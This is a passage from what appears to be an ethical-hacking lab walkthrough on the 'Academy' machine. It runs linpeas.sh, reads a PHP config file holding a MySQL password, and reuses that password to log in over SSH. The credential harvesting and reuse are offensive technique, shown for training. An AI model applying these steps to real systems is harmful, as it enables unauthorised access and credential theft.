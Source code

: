 ```bash
2024-01-17 11:37:34 (47.3 MB/s) - 'linpeas.sh' saved [847920/847920]

$ ls
linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

After a while, Linpeas will provide us with a lot of information. Feel free to go through it. But the most important things we can get out of the results are;

![backup sh](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/c2b600ef-2077-4780-8478-6bd99bed954c)

Interesting…a `[backup.sh](http://backup.sh)` file is a win most of the time.

And…

![secure_pass_sql](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/0406732d-338e-4b48-9aec-936f58da67b7)

A password to a mysql database. We can copy the path and use the `cat` command to check for more info.

```bash
$ cat /var/www/html/academy/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
```

 It looks like we have a user `grimmie` with the password `My_V3ryS3cur3_P4ss` . 

It’s a good idea to try a ssh login with these credentials.

```bash
──(kali㉿kali)-[~]
└─$ ssh grimmie@10.0.2.152                                                                                           
The authenticity of host '10.0.2.152 (10.0.2.152)' can't be established.
ED25519 key fingerprint is SHA256:eeNKTTakhvXyaWVPMDTB9+/4WEg6WKZwlUp0ATptgb0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.152' (ED25519) to the list of known hosts.
grimmie@10.0.2.152's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
```
